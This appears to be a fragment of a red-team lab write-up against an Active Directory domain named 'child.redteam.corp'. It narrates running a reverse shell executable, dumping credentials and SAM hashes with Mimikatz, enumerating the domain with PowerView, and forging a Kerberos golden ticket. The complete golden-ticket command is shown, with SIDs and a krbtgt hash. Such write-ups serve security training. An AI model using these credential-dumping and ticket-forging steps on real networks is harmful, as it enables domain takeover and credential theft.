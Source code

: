 ```python
run
```

```python
.\reverse.exe
```

![[Pasted image 20250512201519.png]]

# Credential Dumping 

We loaded Mimikatz and ran it to test credential extraction:

![[Pasted image 20250512202312.png]]

We also attempted to extract all possible credentials stored in the system’s memory

![[Pasted image 20250512202334.png]]

We extracted the password hashes of local users from the SAM (Security Account Manager)

![[Pasted image 20250512203353.png]]

I also uploaded the Mimikatz binary to the target machine to try and retrieve additional information

We get this 
```python
kerberos::golden /user:Administrator /domain:child.redteam.corp /sid:S-1-5-21-2332039752-785340267-2377082902 /sids:S-1-5-21-1882140339-3759710628-635303199-500 /krbtgt:24dd6646fd7e11b60b6a9508e6fe7e5a /ptt
```

![[Pasted image 20250512211423.png]]
# AD Enumeration 

We uploaded PowerView to gather more information about the Active Directory environment.

We import the necessary modules

```python
PS C:\Users\Administrator\Desktop> Import-Module ./PowerView.ps1
```

We gathered information about the domain
![[Pasted image 20250512210444.png]]

# Golden Ticket Attack 

We ran Mimikatz again and attempted a Golden Ticket attack using the information collected

```python
.\mimikatz.exe
```
